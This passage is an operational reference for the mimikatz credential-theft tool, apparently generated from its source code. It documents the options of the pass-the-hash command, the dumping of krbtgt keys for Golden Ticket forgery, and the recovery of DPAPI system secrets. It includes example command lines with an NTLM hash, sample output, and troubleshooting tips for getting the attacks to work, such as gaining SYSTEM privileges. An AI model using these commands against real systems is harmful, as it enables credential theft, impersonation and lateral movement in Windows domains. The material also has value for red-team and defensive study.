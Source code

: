   * `/run:<program>` — Overrides the default program (`cmd.exe`) that is launched for a new logon, letting you start a specific tool under the forged credentials.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L905-L909】
  * `/impersonate` — After patching a net-only logon, duplicates the token and impersonates it on the current thread, which is useful for pivoting without launching a new process.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L905-L988】
  * `/ntlm:<hash>` or `/rc4:<hash>` — Supplies the 16-byte NTLM hash (RC4 key) to inject; mandatory unless you provide AES keys, because at least one credential material must be replaced.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L946-L1002】
  * `/aes128:<hex>` — Inserts a 128-bit Kerberos key. Only works on Windows 7/2008 R2 and later where AES session keys are supported; use this when targeting Kerberos authentication that relies on AES keys.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L918-L932】
  * `/aes256:<hex>` — Inserts a 256-bit Kerberos key. Like `/aes128`, it is restricted to modern builds (Windows 8.1 / KB2871997 or later) and is necessary when the target service demands AES-256 tickets.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L932-L944】

  
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::pth /user:alice /domain:CONTOSO /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:powershell.exe
  user    : alice
  domain  : CONTOSO
  program : powershell.exe
  netonly : OK
  ```
- **Potential errors & fixes:**
  - Missing `/user` or `/domain` arguments trigger warnings when creating net-only logons—supply both parameters.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L901-L915】
  - `kull_m_memory_copy` failures during hash injection imply LSASS memory shifted; retry quickly or elevate privileges.【F:mimikatz/modules/sekurlsa/packages/kuhl_m_sekurlsa_msv1_0.c†L72-L127】
  - AES options require Windows 7/2008 R2+ (for `/aes128`) or KB2871997/Windows 8.1+ (for `/aes256`); on older builds the helper skips AES injection, so rely on NTLM instead.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L918-L944】

### `sekurlsa::krbtgt`
- **Availability:** Disabled on ARM64 builds.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L24-L26】
- **Purpose:** Dump current and previous krbtgt keys from the KDC for Golden Ticket operations.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L471-L489】
- **Syntax:** `sekurlsa::krbtgt`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::krbtgt
  Current Key : aes256_hmac       32 b : c4d3...
  Previous Key: rc4_hmac_old      16 b : 8846...
  ```
- **Potential errors & fixes:** Empty output often means you are not on a domain controller. Confirm LSASS belongs to a DC and that you are running as SYSTEM. If the command is missing entirely, ensure you are not on ARM64.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L24-L26】【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L471-L489】

### `sekurlsa::dpapisystem`
- **Purpose:** Recover DPAPI_SYSTEM secrets (machine/user SHA1 components) for decrypting system-protected blobs.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L629-L682】
- **Syntax:** `sekurlsa::dpapisystem`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::dpapisystem
  Machine key : 35d1e4a16a7e8e0c2932...
  User key    : 128b0f9ad98f8a1a47fe...
  ```